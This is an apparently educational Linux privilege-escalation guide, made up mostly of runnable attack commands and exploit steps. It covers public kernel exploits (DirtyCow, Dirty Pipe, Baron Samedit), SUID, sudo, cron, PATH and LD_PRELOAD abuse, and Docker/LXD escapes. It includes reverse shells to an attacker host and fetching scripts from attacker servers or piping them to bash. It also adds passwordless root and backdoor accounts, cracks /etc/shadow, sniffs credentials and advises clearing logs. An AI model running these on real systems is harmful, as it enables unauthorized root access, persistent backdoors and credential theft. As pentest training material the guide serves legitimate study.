

# Linux Privilege Escalation

> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing | **OS:** Linux

> **Goal:** Escalate from a low-privileged shell to `root` (UID 0) by exploiting misconfigurations, vulnerabilities, and design weaknesses in the target system.

---

## Table of Contents

1. [Initial Enumeration](#1-initial-enumeration)
2. [Kernel Exploits](#2-kernel-exploits)
3. [SUID/SGID Binaries](#3-suidsgid-binaries)
4. [Sudo Rights](#4-sudo-rights)
5. [Cron Jobs](#5-cron-jobs)
6. [Writable Sensitive Files](#6-writable-sensitive-files)
7. [PATH Hijacking](#7-path-hijacking)
8. [NFS no_root_squash](#8-nfs-no_root_squash)
9. [Docker Group](#9-docker-group)
10. [LXD/LXC Container Escape](#10-lxdlxc-container-escape)
11. [Linux Capabilities](#11-linux-capabilities)
12. [LD_PRELOAD Exploitation](#12-ld_preload-exploitation)
13. [LD_LIBRARY_PATH Hijacking](#13-ld_library_path-hijacking)
14. [Automated Enumeration Tools](#14-automated-enumeration-tools)
15. [Full Cheat Sheet Table](#15-full-cheat-sheet-table)
16. [Decision Tree](#16-decision-tree)

---

## 1. Initial Enumeration

Before chasing specific exploits, gather as much context as possible about the target system.

```bash
# Who are we?
id
whoami
groups

# OS and kernel information
uname -a
cat /proc/version
cat /etc/os-release
cat /etc/issue
lsb_release -a 2>/dev/null

# Hostname and network
hostname
ip a
cat /etc/hosts
cat /etc/resolv.conf

# Current user's home and environment
env
echo $PATH
cat ~/.bash_history
cat ~/.bashrc
cat ~/.profile

# Other users on the system
cat /etc/passwd | grep -v nologin | grep -v false
cat /etc/group
w
last
lastlog

# Running processes
ps aux
ps -ef

# Installed software / package managers
dpkg -l 2>/dev/null | head -30
rpm -qa 2>/dev/null | head -30

# Interesting files and directories
find / -writable -type f 2>/dev/null | grep -v proc | grep -v sys
find / -writable -type d 2>/dev/null | grep -v proc | grep -v sys
ls -la /tmp /var/tmp /dev/shm
```

> **Note:** Always redirect `stderr` to `/dev/null` (`2>/dev/null`) when running `find` as a low-privileged user to suppress "Permission denied" noise.

---

## 2. Kernel Exploits

Kernel exploits are often the most reliable privesc path when present, but also the most dangerous — they can crash the system.

### 2.1 Check Kernel Version

```bash
uname -a
# Example output: Linux target 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

cat /proc/version
# Example: Linux version 4.4.0-116-generic (buildd@lgw01-amd64-021) (gcc version 5.4.0 20160609 ...)

# Also check the distribution-specific kernel
uname -r
```

### 2.2 linux-exploit-suggester

The most efficient way to identify applicable kernel CVEs.

```bash
# Download on attacker machine, serve via HTTP
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
python3 -m http.server 8080

# On victim machine — fetch and execute
curl http://<attacker-ip>:8080/linux-exploit-suggester.sh -o /tmp/les.sh
chmod +x /tmp/les.sh
/tmp/les.sh

# Or pipe directly (if outbound HTTP is available)
curl -s https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh | bash
```

Sample output will list CVEs with exposure ratings (`highly probable`, `probable`), kernel version requirements, and links to PoC code.

### 2.3 DirtyCow — CVE-2016-5195

**What it is:** A race condition in the Linux kernel's copy-on-write (COW) mechanism for memory-mapped files. An unprivileged local user can exploit it to gain write access to read-only memory mappings, allowing them to overwrite files like `/etc/passwd` or place a SUID shell.

**Affected kernels:** Linux kernel 2.6.22 – 4.8.3 (patched in 4.8.3, 4.7.9, 4.4.26)

```bash
# Check if vulnerable
uname -r   # Should be < 4.8.3

# Download the classic PoC (dirty.c)
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c

# Compile
gcc -pthread dirty.c -o dirty -lcrypt

# Run (will ask for a new password for the patched 'firefart' user in /etc/passwd)
./dirty
# When prompted, enter a password for the temporary root user

# Switch to root
su firefart
# Enter the password you set

# Restore /etc/passwd when done (PoC backs it up to /tmp/passwd.bak)
cp /tmp/passwd.bak /etc/passwd
```

> **Warning:** DirtyCow can corrupt memory and crash the system. Always test in a lab before running on a live target. The `dirty.c` variant is more stable than `dirtycow.c`.

**SUID shell variant:** An alternative PoC writes a SUID `bash` binary to disk:

```bash
# cowroot.c variant
gcc -pthread cowroot.c -o cowroot -lcrypt
./cowroot
# Creates /tmp/bak as a SUID root shell
/tmp/bak -p
```

### 2.4 Dirty Pipe — CVE-2022-0847

**What it is:** A vulnerability in the Linux kernel's pipe mechanism (`pipe_write`). An attacker can overwrite data in arbitrary read-only page cache pages, including read-only files and SUID binaries.

**Affected kernels:** Linux 5.8 – 5.16.11 / 5.15.25 / 5.10.102 (patched upstream 2022-02-23)

```bash
# Check
uname -r   # 5.8 through 5.16.x unpatched

# Download PoC
wget https://raw.githubusercontent.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/main/exploit-1.c

# Compile
gcc exploit-1.c -o dirtypipe

# Run — overwrites /etc/passwd SUID binary root entry with a new root user
./dirtypipe /etc/passwd 1 "root:$HASH:0:0:root:/root:/bin/bash"

# Alternatively, use exploit-2.c to inject SUID into /usr/bin/sudo
gcc exploit-2.c -o dirtypipe2
./dirtypipe2 /usr/bin/sudo
# This makes sudo SUID-root-owned, then:
sudo su
```

> **Note:** Unlike DirtyCow, Dirty Pipe operates entirely in the page cache and is generally stable — no crash risk in most PoC implementations.

### 2.5 CVE Research Workflow

```
1. Record kernel version:    uname -r
2. Search CVEs:              searchsploit linux kernel <version>
                             https://cve.mitre.org
                             https://www.exploit-db.com
3. Cross-reference:          linux-exploit-suggester output
4. Review PoC code:          Read the source before compiling
5. Check compilation deps:   gcc, make, required headers present?
6. Compile on target or      Use matching arch/libc version
   matching machine:
7. Test in lab:              Always verify in a controlled environment first
8. Execute:                  ./exploit
9. Cleanup:                  Remove binaries, restore files, clear logs
```

---

## 3. SUID/SGID Binaries

**SUID (Set User ID):** When set on an executable, it runs with the file owner's privileges (often root) regardless of who executes it.  
**SGID (Set Group ID):** Runs with the file group's privileges.

### 3.1 Finding SUID/SGID Binaries

```bash
# Find all SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Find all SGID binaries
find / -perm -2000 -type f 2>/dev/null

# Find both at once
find / -perm /6000 -type f 2>/dev/null

# Find SUID owned by root specifically
find / -uid 0 -perm -4000 -type f 2>/dev/null

# Check unusual SUID binaries (filter known good ones)
find / -perm -4000 -type f 2>/dev/null | grep -v "/usr/bin\|/bin\|/sbin\|/usr/sbin\|/usr/lib"
```

### 3.2 GTFOBins

> **Reference:** [https://gtfobins.github.io/](https://gtfobins.github.io/) — a curated list of Unix binaries that can be used to bypass local security restrictions.

Always check GTFOBins when you find an unusual SUID binary. Search the binary name and look under the **SUID** tab.

### 3.3 Exploiting Common SUID Binaries

#### `nmap` (versions 2.02–5.21 — interactive mode)

```bash
# Verify SUID
ls -la $(which nmap)

# Interactive mode shell
nmap --interactive
# At the nmap> prompt:
nmap> !sh
# You now have a root shell
```

#### `vim` / `vi`

```bash
# Escape to shell from vim
vim -c ':!/bin/sh'

# Or open vim then type:
:set shell=/bin/sh
:shell

# With file argument
vim /etc/passwd
# Then inside vim:
:!/bin/sh
```

#### `find`

```bash
# Execute shell directly
find . -exec /bin/sh \; -quit

# Using -name to avoid matching too many files
find /etc/passwd -exec /bin/sh \; -quit
```

#### `bash`

```bash
# -p flag preserves effective UID (eUID = root when SUID is set)
/bin/bash -p
# Verify:
whoami   # should return root
```

#### `python` / `python3`

```bash
# Python2 SUID
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# Python3 SUID
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

#### `cp` — overwrite `/etc/passwd`

```bash
# Create a modified passwd file with a new root user (no password)
openssl passwd -1 hacked123
# $1$xyz$HASH_OUTPUT

# Copy /etc/passwd and add our user
cp /etc/passwd /tmp/passwd.bak
echo 'hacker:$1$xyz$HASH_OUTPUT:0:0:Hacker:/root:/bin/bash' >> /etc/passwd

# Or with a blank password using cp to replace the file:
echo 'hacker::0:0:Hacker:/root:/bin/bash' > /tmp/newpasswd
cat /etc/passwd >> /tmp/newpasswd
cp /tmp/newpasswd /etc/passwd

su hacker   # press Enter for blank password
```

#### `less` / `more`

```bash
# Open any file, then escape to shell
less /etc/passwd
# Inside less, type:
!/bin/sh

# With more:
more /etc/passwd
# Inside more, type:
!/bin/sh
```

#### `awk`

```bash
awk 'BEGIN {system("/bin/sh")}'
```

#### `nano`

```bash
nano
# Inside nano:
# Ctrl+R then Ctrl+X
# Type: reset; sh 1>&0 2>&0
```

#### `tee`

```bash
# Append to /etc/sudoers via tee (SUID tee can write root-owned files)
echo "attacker ALL=(ALL) NOPASSWD:ALL" | tee -a /etc/sudoers
sudo /bin/bash
```

#### `xxd`

```bash
# Read /etc/shadow
xxd /etc/shadow | xxd -r
```

---

## 4. Sudo Rights

### 4.1 Check Current Sudo Permissions

```bash
sudo -l
# Output shows what commands the current user may run as root (or other users)
```

Example output:
```
User www-data may run the following commands on target:
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/python3 /opt/scripts/backup.py
    (ALL : ALL) ALL
```

### 4.2 NOPASSWD Entries

Any binary listed with `NOPASSWD` can be run as root without a password. Immediately check it against GTFOBins.

```bash
# If sudo allows /bin/bash
sudo /bin/bash

# If sudo allows python3
sudo python3 -c 'import os; os.system("/bin/bash")'

# If sudo allows less
sudo less /etc/passwd
# then type: !/bin/sh
```

### 4.3 Horizontal Privilege Escalation

```bash
# Run command as a specific other user
sudo -u www-data /bin/bash
sudo -u backup /bin/bash

# List what you can run as another user
sudo -u www-data -l
```

### 4.4 sudoedit Bypass — CVE-2023-22809

**Affected versions:** sudo < 1.9.12p2

`sudoedit` is supposed to only allow editing specific files. This CVE allows bypassing the restriction via `--` argument injection to edit arbitrary files.

```bash
# Check sudo version
sudo --version

# Vulnerable if version is before 1.9.12p2
# If sudoers contains something like:
# user ALL=(root) sudoedit /etc/nginx/nginx.conf

# Exploitation:
EDITOR="vim -- /etc/sudoers" sudoedit /etc/nginx/nginx.conf
# vim opens /etc/sudoers as root — add NOPASSWD entry
```

### 4.5 ALL Commands in Sudoers

```bash
# If /etc/sudoers contains:
# username ALL=(ALL:ALL) ALL

sudo su -
# or
sudo /bin/bash
# or
sudo -s
```

### 4.6 Baron Samedit — CVE-2021-3156

**What it is:** A heap-based buffer overflow in `sudo`'s argument parsing when `sudoedit` is invoked. It does **not** require the user to be in sudoers.

**Affected versions:** sudo 1.8.2 – 1.8.31p2, 1.9.0 – 1.9.5p1

```bash
# Check sudo version
sudo --version

# Test if vulnerable (should segfault or produce a specific error if vulnerable)
sudoedit -s '\' $(python3 -c 'print("A"*65536)')

# Download PoC
git clone https://github.com/worawit/CVE-2021-3156
cd CVE-2021-3156
# Multiple exploit scripts for different distros:
python3 exploit_nss.py     # For Ubuntu/Debian with libc NSS
python3 exploit_defaults_mailer.py  # Alternative method

# Or use:
git clone https://github.com/blasty/CVE-2021-3156
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich <target_id>
# target_id from the list printed by the tool (Ubuntu 18/20, Debian 10, etc.)
```

> **Warning:** Baron Samedit is a memory corruption exploit. Test carefully — crashes are possible on incorrect target selection.

---

## 5. Cron Jobs

Cron runs scheduled tasks, often as root. If a cron script is writable or PATH-injectable, you get root code execution.

### 5.1 Locate Cron Jobs

```bash
# System-wide crontab
cat /etc/crontab

# Per-user crontabs (requires read access)
crontab -l
crontab -l -u root 2>/dev/null

# Cron directories
ls -la /etc/cron.d/
ls -la /etc/cron.daily/
ls -la /etc/cron.hourly/
ls -la /etc/cron.weekly/
ls -la /etc/cron.monthly/

# cat all cron configs
cat /etc/cron.d/*
cat /var/spool/cron/crontabs/* 2>/dev/null

# Look for cron-related logs
grep "CRON" /var/log/syslog | tail -20
grep "CRON" /var/log/cron 2>/dev/null | tail -20

# Check for running cron daemon
ps aux | grep cron
```

### 5.2 Monitor with pspy

**pspy** monitors process execution in real time without requiring root, by watching `/proc`.

```bash
# Download
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64

# Run (watches for new processes)
./pspy64

# Watch for UID=0 processes (root execution)
./pspy64 | grep "UID=0"

# 32-bit systems
wget .../pspy32
chmod +x pspy32
./pspy32
```

Sample pspy output showing a cron job:
```
2024/01/01 12:00:01 CMD: UID=0    PID=1234   | /bin/sh -c /home/user/backup.sh
```

### 5.3 Writable Cron Script

```bash
# Found: root runs /home/user/cleanup.sh every minute
# Check permissions
ls -la /home/user/cleanup.sh
# -rwxrwxrwx  — world writable!

# Inject reverse shell
echo 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' >> /home/user/cleanup.sh

# Set up listener on attacker machine
nc -lvnp 4444

# Wait for cron to fire (up to 1 minute)
```

### 5.4 PATH Injection in Cron

If `/etc/crontab` defines a `PATH` that includes writable directories before system paths:

```
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * * root backup.sh
```

```bash
# 'backup.sh' has no full path — it resolves via PATH
# /home/user is first in PATH and we can write there

cat > /home/user/backup.sh << 'EOF'
#!/bin/bash
chmod +s /bin/bash
EOF
chmod +x /home/user/backup.sh

# Wait for cron, then:
/bin/bash -p
whoami   # root
```

### 5.5 Cron Wildcard Injection

If a cron job runs something like `tar czf /backup/files.tar.gz /data/*`, the wildcard `*` can be exploited:

```bash
cd /data

# Create files named after tar flags
echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=exec=sh privesc.sh'

# Create the payload script
cat > privesc.sh << 'EOF'
#!/bin/bash
chmod +s /bin/bash
EOF
chmod +x privesc.sh

# When cron runs: tar czf /backup/files.tar.gz /data/*
# It expands to: tar czf ... --checkpoint=1 --checkpoint-action=exec=sh privesc.sh ...
# tar executes privesc.sh as root

/bin/bash -p
```

---

## 6. Writable Sensitive Files

### 6.1 `/etc/passwd` Writable

The `/etc/passwd` file stores user accounts. If it's world-writable, you can add a new root user.

```bash
# Check permissions
ls -la /etc/passwd
# -rw-rw-rw- (world writable — vulnerable!)

# Method 1: Add root user with no password
echo 'hacker::0:0:root:/root:/bin/bash' >> /etc/passwd
su hacker
# Press Enter at password prompt
whoami   # root

# Method 2: Add user with known password hash
# Generate hash: openssl passwd -1 password123
# $1$abc$rBmqiMzn4/KkbBqpTb6E70
echo 'hacker:$1$abc$rBmqiMzn4/KkbBqpTb6E70:0:0:root:/root:/bin/bash' >> /etc/passwd
su hacker
# Enter: password123

# Method 3: Replace x in root entry with nothing (remove shadow reference)
# Original: root:x:0:0:root:/root:/bin/bash
sed -i 's/root:x:/root::/' /etc/passwd
su root
# No password required!
```

### 6.2 `/etc/shadow` Readable

```bash
# Check permissions
ls -la /etc/shadow

# If readable:
cat /etc/shadow

# Crack with John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/shadow
john --show /tmp/shadow

# Crack with hashcat (mode 1800 = sha512crypt)
hashcat -m 1800 /tmp/shadow /usr/share/wordlists/rockyou.txt
hashcat -m 500 /tmp/shadow /usr/share/wordlists/rockyou.txt   # MD5crypt

# Unshadow for john
unshadow /etc/passwd /etc/shadow > /tmp/unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/unshadowed.txt
```

### 6.3 Writable `/etc/sudoers`

```bash
# Check
ls -la /etc/sudoers

# If writable:
echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
sudo /bin/bash

# Verify syntax first (sudo reads sudoers with visudo validation)
# To be safe, append to /etc/sudoers.d/ instead
echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" > /etc/sudoers.d/privesc
chmod 440 /etc/sudoers.d/privesc
sudo /bin/bash
```

### 6.4 World-Writable Service Config Files

```bash
# Find writable configs belonging to root-run services
find /etc -writable -type f 2>/dev/null
find /etc/systemd -writable -type f 2>/dev/null

# If a systemd service unit is writable:
cat /etc/systemd/system/vulnerable.service
# ExecStart=/usr/bin/python3 /opt/scripts/run.py

# Overwrite to execute our payload
cat > /etc/systemd/system/vulnerable.service << 'EOF'
[Unit]
Description=Pwned Service

[Service]
ExecStart=/bin/bash -c 'chmod +s /bin/bash'
User=root

[Install]
WantedBy=multi-user.target
EOF

# Reload and restart
systemctl daemon-reload
systemctl restart vulnerable.service
/bin/bash -p
```

---

## 7. PATH Hijacking

**Concept:** A SUID binary or root-owned script invokes another binary by name only (e.g., `curl`, `cat`, `service`) without specifying its full path. By placing a malicious binary with the same name earlier in `PATH`, you can hijack execution.

### 7.1 Identify Vulnerable Calls

```bash
# Inspect a SUID binary for string literals (referenced commands)
strings /usr/local/bin/suid-binary
# Look for commands without full paths: "curl", "service", "python"

# ltrace to trace library calls
ltrace /usr/local/bin/suid-binary 2>&1

# strace to trace system calls
strace -e execve /usr/local/bin/suid-binary 2>&1 | grep exec
```

Example: `strings /usr/local/bin/suid-backup` shows:
```
service apache2 start
curl http://backup-server/sync
```

### 7.2 Create Malicious Binary

```bash
# Create a malicious 'service' binary in /tmp
cat > /tmp/service << 'EOF'
#!/bin/bash
/bin/bash -p
EOF
chmod +x /tmp/service

# Alternatively for a reverse shell:
cat > /tmp/curl << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
EOF
chmod +x /tmp/curl
```

### 7.3 Prepend to PATH and Execute

```bash
# Prepend /tmp to PATH
export PATH=/tmp:$PATH

# Verify
echo $PATH
# /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Run the vulnerable SUID binary
/usr/local/bin/suid-binary
# Triggers our malicious 'service' or 'curl' → root shell
```

> **Note:** This only works if the SUID binary inherits or uses the calling user's `PATH`. Some binaries reset `PATH` internally. Always verify with `strace` or `ltrace`.

---

## 8. NFS no_root_squash

NFS (Network File System) shares can be configured with `no_root_squash`, meaning the root user on a client machine retains root privileges on the share — allowing SUID binary creation.

### 8.1 Check Exports on Victim

```bash
cat /etc/exports
```

Example vulnerable output:
```
/home/nfs *(rw,sync,no_subtree_check,no_root_squash)
```

### 8.2 Attack from Attacker Machine (as root)

```bash
# Enumerate available mounts
showmount -e <target-ip>

# Mount the NFS share
mkdir /mnt/nfs
mount -t nfs <target-ip>:/home/nfs /mnt/nfs

# Copy bash to the share and set SUID
cp /bin/bash /mnt/nfs/bash
chmod +s /mnt/nfs/bash
ls -la /mnt/nfs/bash
# -rwsr-sr-x (SUID set)

# Unmount when done
umount /mnt/nfs
```

### 8.3 Execute on Victim Machine

```bash
# The bash binary is now accessible on the victim at the NFS path
ls -la /home/nfs/bash
# -rwsr-sr-x root root

# Execute with -p (preserve privileges)
/home/nfs/bash -p
whoami   # root
```

> **Note:** `no_root_squash` is a misconfiguration. The correct setting is `root_squash`, which maps root client requests to an anonymous user.

---

## 9. Docker Group

If a user is a member of the **docker** group, they have effective root access to the host filesystem through container volume mounts.

```bash
# Check group membership
id
# uid=1001(user) gid=1001(user) groups=1001(user),999(docker)

# Instant root filesystem access
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# Verify
whoami   # root
cat /etc/shadow

# More targeted: just read a sensitive file
docker run --rm -v /etc/shadow:/shadow alpine cat /shadow

# Drop into root shell on host filesystem
docker run -v /:/mnt --rm -it ubuntu bash
chroot /mnt
whoami   # root
```

> **Warning:** Docker group membership is equivalent to root. It is a severe misconfiguration to add non-root users to the docker group on production systems.

### 9.1 Add Backdoor User via Docker

```bash
docker run --rm -v /etc:/mnt/etc alpine sh -c \
  "echo 'backdoor::0:0:root:/root:/bin/bash' >> /mnt/etc/passwd"

su backdoor   # root shell, no password
```

---

## 10. LXD/LXC Container Escape

Similar to Docker group abuse. LXD group members can create privileged containers with the host filesystem mounted.

### 10.1 Check Membership

```bash
id | grep lxd
# or
groups | grep lxd
```

### 10.2 Method: Privileged Container with Host Filesystem

```bash
# Step 1: Build a minimal Alpine image on the attacker machine
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sudo bash build-alpine
# Creates: alpine-v3.x-x86_64-DATE.tar.gz

# Transfer to victim:
python3 -m http.server 8080
# On victim:
wget http://<attacker-ip>:8080/alpine-v3.x-x86_64.tar.gz

# Step 2: Import image on victim
lxc image import ./alpine-v3.x-x86_64.tar.gz --alias myimage
lxc image list   # confirm it's there

# Step 3: Initialize a privileged container
lxc init myimage mycontainer -c security.privileged=true

# Step 4: Mount the host root filesystem into the container
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# Step 5: Start and access the container
lxc start mycontainer
lxc exec mycontainer /bin/sh

# Inside the container — /mnt/root is the entire host filesystem as root
ls /mnt/root/root/
cat /mnt/root/etc/shadow

# Add SUID bash on the host
cp /mnt/root/bin/bash /mnt/root/tmp/bash
chmod +s /mnt/root/tmp/bash

# Exit container and run on host:
/tmp/bash -p
whoami   # root
```

---

## 11. Linux Capabilities

Linux capabilities break the root privilege model into individual units. Some capabilities granted to non-root binaries or processes can be abused for privilege escalation.

### 11.1 Find Binaries with Capabilities

```bash
getcap -r / 2>/dev/null
```

Sample output:
```
/usr/bin/python3.8 = cap_setuid+ep
/usr/bin/perl = cap_setuid+ep
/usr/bin/ruby = cap_setuid+ep
/usr/sbin/tcpdump = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+p
```

### 11.2 `cap_setuid` — Instant Root

```bash
# python3 with cap_setuid+ep
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# perl with cap_setuid+ep
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

# ruby with cap_setuid+ep
ruby -e 'Process::Sys.setuid(0); exec "/bin/bash"'
```

### 11.3 `cap_dac_read_search` — Read Any File

```bash
# python with cap_dac_read_search+ep
python3 -c 'import ctypes; libc = ctypes.CDLL(None)
open("/etc/shadow").read()
' 
# Or use the raw capability to read any file regardless of permissions

# More direct:
python3 -c '
import ctypes
with open("/etc/shadow") as f:
    print(f.read())
'
```

### 11.4 `cap_net_raw` — Packet Sniffing

```bash
# tcpdump can capture network traffic even as non-root
tcpdump -i eth0 -w /tmp/capture.pcap

# Capture credentials in transit (HTTP, FTP, SMTP)
tcpdump -i eth0 -A -s0 'port 80' | grep -i 'pass\|user\|login'
```

### 11.5 Capability Reference Table

| Capability | Risk | Abuse Method |
|---|---|---|
| `cap_setuid` | **Critical** | `os.setuid(0)` → root |
| `cap_setgid` | **Critical** | `os.setgid(0)` → root group |
| `cap_dac_override` | **High** | Bypass file read/write/execute checks |
| `cap_dac_read_search` | **High** | Read any file (shadow, keys) |
| `cap_net_raw` | **Medium** | Raw socket access, sniff traffic |
| `cap_sys_admin` | **Critical** | Mount filesystems, many dangerous ops |
| `cap_sys_ptrace` | **Critical** | Attach to processes (steal credentials) |
| `cap_chown` | **High** | Change file ownership → own `/etc/shadow` |
| `cap_fowner` | **High** | Bypass ownership permission checks |
| `cap_sys_module` | **Critical** | Load kernel modules (rootkit) |

---

## 12. LD_PRELOAD Exploitation

**LD_PRELOAD** is an environment variable that forces the dynamic linker to load a shared library before all others. If `sudo` is configured to preserve the `LD_PRELOAD` variable (`env_keep += LD_PRELOAD`), it can be exploited.

### 12.1 Identify Vulnerable Configuration

```bash
sudo -l
# Look for output containing:
# env_keep+=LD_PRELOAD
# or
# env_keep+=LD_LIBRARY_PATH
```

Vulnerable sudoers line:
```
Defaults        env_keep+=LD_PRELOAD
user ALL=(ALL) NOPASSWD: /usr/bin/find
```

### 12.2 Create the Malicious Shared Library

```bash
# Write the C source
cat > /tmp/shell.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
EOF

# Compile as a shared library
gcc -fPIC -shared -o /tmp/shell.so /tmp/shell.c -nostartfiles
```

### 12.3 Execute via Sudo

```bash
# Run any allowed sudo command with LD_PRELOAD pointing to our library
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/find

# The dynamic linker loads shell.so first, _init() runs, spawns root bash
whoami   # root
```

> **Note:** Modern Linux distributions typically set `env_reset` in sudoers which strips `LD_PRELOAD`. This technique only works when `env_keep` explicitly includes `LD_PRELOAD`.

---

## 13. LD_LIBRARY_PATH Hijacking

Similar to LD_PRELOAD but targets specific shared libraries that a SUID binary loads. By placing a fake version of a library in a path that's checked first, you inject code.

### 13.1 Identify Libraries Loaded by a SUID Binary

```bash
# Find SUID binary
find / -perm -4000 -type f 2>/dev/null

# List dynamic libraries
ldd /usr/bin/suid-prog
# Output:
#   libcustom.so.1 => /usr/lib/libcustom.so.1
#   libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6

# Check if LD_LIBRARY_PATH is preserved in sudo
sudo -l | grep LD_LIBRARY
```

### 13.2 Create Fake Library

```bash
# Get the functions exported by the real library
nm -D /usr/lib/libcustom.so.1 | grep " T "

# Create a fake library implementing those functions + root escalation
cat > /tmp/libcustom.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int legitimate_function() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
    return 0;
}
EOF

gcc -shared -fPIC -nostartfiles -o /tmp/libcustom.so.1 /tmp/libcustom.c

# Run with modified LD_LIBRARY_PATH
sudo LD_LIBRARY_PATH=/tmp /usr/bin/suid-prog
```

---

## 14. Automated Enumeration Tools

> **Best practice:** Run automated tools as a sweep, then investigate findings manually. Tools find the low-hanging fruit; understanding the output requires knowledge.

### 14.1 linPEAS

The most comprehensive Linux privilege escalation enumeration script.

```bash
# Method 1: Curl + pipe (noisy but quick)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Method 2: Transfer and run (preferred — review before executing)
# Attacker:
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 8080
# Victim:
curl http://<attacker-ip>:8080/linpeas.sh -o /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh 2>/dev/null | tee /tmp/linpeas-output.txt

# Redirect output to file for review
/tmp/linpeas.sh -a > /tmp/linpeas_full.txt 2>&1
```

Color coding in linPEAS:
- 🟥 **Red/Yellow** — 95%+ privilege escalation path
- 🟧 **Red** — interesting, worth investigating
- 🟨 **Yellow** — common CTF / misconfig
- 🟦 **Cyan** — informational

### 14.2 linux-smart-enumeration (lse.sh)

```bash
wget https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh
chmod +x lse.sh

# Level 0: simple overview
./lse.sh -l 0

# Level 1: interesting information
./lse.sh -l 1

# Level 2: everything (slow, very verbose)
./lse.sh -l 2

# Show only results with privesc potential
./lse.sh -l 1 -i
```

### 14.3 linux-exploit-suggester

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh

# Run
./linux-exploit-suggester.sh

# Show only highly probable
./linux-exploit-suggester.sh | grep -A 3 "highly probable"
```

### 14.4 pspy

```bash
# 64-bit
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64

# Monitor (Ctrl+C to stop)
./pspy64

# Filter for root processes only (UID=0)
./pspy64 2>/dev/null | grep "UID=0"

# Quiet mode, log to file
./pspy64 -q -f /tmp/pspy.log
```

### 14.5 LinEnum

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -t   # thorough mode
./LinEnum.sh -k password   # search for keyword in files
```

---

## 15. Full Cheat Sheet Table

| Category | Check | Command | Goal |
|---|---|---|---|
| **System Info** | OS version | `cat /etc/os-release` | Identify distro/version |
| **System Info** | Kernel version | `uname -a` | Find kernel exploits |
| **System Info** | Installed pkgs | `dpkg -l` / `rpm -qa` | Find vulnerable software |
| **Current User** | Identity | `id && whoami && groups` | Know your user/groups |
| **Current User** | Sudo rights | `sudo -l` | Check allowed commands |
| **Current User** | Sudo version | `sudo --version` | Check CVE-2021-3156 |
| **SUID/SGID** | Find SUID | `find / -perm -4000 -type f 2>/dev/null` | Identify exploitable binaries |
| **SUID/SGID** | Find SGID | `find / -perm -2000 -type f 2>/dev/null` | Identify exploitable binaries |
| **Files** | World-writable | `find / -perm -0002 -type f 2>/dev/null` | Find writable configs |
| **Files** | passwd perms | `ls -la /etc/passwd` | Writable = add root user |
